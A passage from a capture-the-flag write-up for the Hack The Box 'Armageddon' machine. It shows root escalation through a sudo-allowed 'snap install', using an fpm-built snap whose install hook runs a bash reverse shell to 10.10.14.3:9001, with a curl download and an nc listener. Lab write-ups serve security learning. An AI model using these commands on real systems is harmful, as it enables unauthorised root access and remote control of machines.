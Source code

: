 # root

![](Armageddon-HTB-11.png)

- brucetherealadmin can run the following command as root
````bash
/usr/bin/span install *
````

![](Armageddon-HTB-13.gif)

```bash
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

```
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```

- all that is needed is for a means to run a command within the context of the above command (as root). GTFObins has the required remedy. 
- what is required is to embed a command with the FPM package manager then we can run a shell command as root.

![](Armageddon-HTB-13.png)

- first the package manager FPM needs to be installed

````bash
echo 'bash -i >& /dev/tcp/10.10.14.3/9001' 0>&1 > callhome.sh
chmod +x callhome.sh
````

- create the callhome.sh script on victim machine as above

````bash
COMMAND='bash -c /home/brucetherealadmin/callhome.sh'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
````

- on the attacking machine (Kali Box), prepare the payload by copying and pasting the script as above.

````bash
sudo python3 -m http.server 80
````

- from the temp folder where the payload is generated, run the python web server as above; so that the payload may be downloaded to the victim machine.

````bash
curl http://10.10.14.3/xxxx_1.0_all.snap --output sxxxx_1.0_all.snap
````

- since there isn't wget on the victim machine, use curl to download the payload as shown above.

````bash
nc -nvlp 9001
````

- run the listener as above

````bash
sudo /usr/bin/snap install sxxxx_1.0_all.snap --dangerous --devmode
````

- finaly run the snap command to load the payload as above
- or watch the animated gif below


![](Armageddon-HTB-14.gif)